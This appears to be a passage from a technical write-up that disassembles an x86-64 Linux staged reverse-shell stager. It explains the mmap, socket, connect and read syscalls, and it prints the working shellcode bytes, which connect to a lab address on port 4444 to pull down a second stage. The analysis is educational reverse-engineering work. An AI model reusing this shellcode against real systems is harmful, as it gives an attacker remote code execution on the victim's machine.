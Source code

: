 Let's decompose it:
```
0:  31 ff                   xor    edi,edi
2:  6a 09                   push   0x9
4:  58                      pop    rax
5:  99                      cdq
6:  b6 10                   mov    dh,0x10
8:  48 89 d6                mov    rsi,rdx
b:  4d 31 c9                xor    r9,r9
e:  6a 22                   push   0x22
10: 41 5a                   pop    r10
12: 6a 07                   push   0x7
14: 5a                      pop    rdx
15: 0f 05                   syscall
17: 48 85 c0                test   rax,rax
1a: 78 51                   js     0x6d
```
This calls `mmap` to create a new virtual address space. In case of error, it jumps to `0x6d`:
```
6d: 6a 3c                   push   0x3c
6f: 58                      pop    rax
70: 6a 01                   push   0x1
72: 5f                      pop    rdi
73: 0f 05                   syscall
```
It exits the process.

Let's go back to the case there is no error:
```
1c: 6a 0a                   push   0xa
1e: 41 59                   pop    r9
20: 50                      push   rax
21: 6a 29                   push   0x29
23: 58                      pop    rax
24: 99                      cdq
25: 6a 02                   push   0x2
27: 5f                      pop    rdi
28: 6a 01                   push   0x1
2a: 5e                      pop    rsi
2b: 0f 05                   syscall
2d: 48 85 c0                test   rax,rax
30: 78 3b                   js     0x6d
```
This creates the socket the same way as with the stageless payload.

```
32: 48 97                   xchg   rdi,rax
34: 48 b9 02 00 11 5c ac    movabs rcx,0x10011ac5c110002
3b: 11 00 01
3e: 51                      push   rcx
3f: 48 89 e6                mov    rsi,rsp
42: 6a 10                   push   0x10
44: 5a                      pop    rdx
45: 6a 2a                   push   0x2a
47: 58                      pop    rax
48: 0f 05                   syscall
4a: 59                      pop    rcx
4b: 48 85 c0                test   rax,rax
4e: 79 25                   jns    0x75
```
This initiates the connection to `172.17.0.2:4444`. In case of success, it jumps to `0x75`:
```
75: 5e                      pop    rsi
76: 6a 26                   push   0x26
78: 5a                      pop    rdx
79: 0f 05                   syscall
```